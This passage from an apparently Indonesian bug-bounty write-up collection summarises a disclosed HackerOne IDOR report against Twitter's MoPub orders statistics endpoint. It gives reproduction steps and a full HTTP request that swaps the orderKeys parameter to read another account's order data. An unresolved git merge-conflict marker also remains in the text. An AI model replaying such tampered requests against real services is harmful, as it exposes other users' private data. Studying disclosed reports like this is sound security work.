 - extract the ID parameter value
- lookup if the user has any course linked to his account with this ID

### 3. [#544329 IDOR and statistics leakage in Orders (Hackerone)](https://hackerone.com/reports/544329)

Aplikasi Twitter punya service yang namanya **MoPub** yang difiturnya terdapat result dari **order**
endpoint : **https://app.mopub.com/web-client/api/orders/stats/query%22**

1. buat akun di **https://app.mopub.com/** lalu **login**
2. pergi ke **https://app.mopub.com/orders** lalu buat **order**
3. intercept lalu post, tapi ganti parameter **orderKeys**

```
POST /web-client/api/orders/stats/query HTTP/1.1
Host: app.mopub.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.mopub.com/orders
Content-Type: application/json
x-csrftoken: {TOKEN}
Content-Length: 98
Connection: close
Cookie: csrftoken={TOKEN}; sessionid={SID}; mp_mixpanel__c=1;

{"startTime":"2019-04-07","endTime":"2019-04-20","orderKeys":["43b29d60a9724fa9abbdc800044002d6"]}
```

<<<<<<< HEAD
![testing](https://drive.google.com/uc?id=1F3O8jpUwwy_yiffRPE9pcGSeb1vLVOvd)
=======
![Gambar_1](1.png)
>>>>>>> fd99555 (Update rebelsec.id Site)
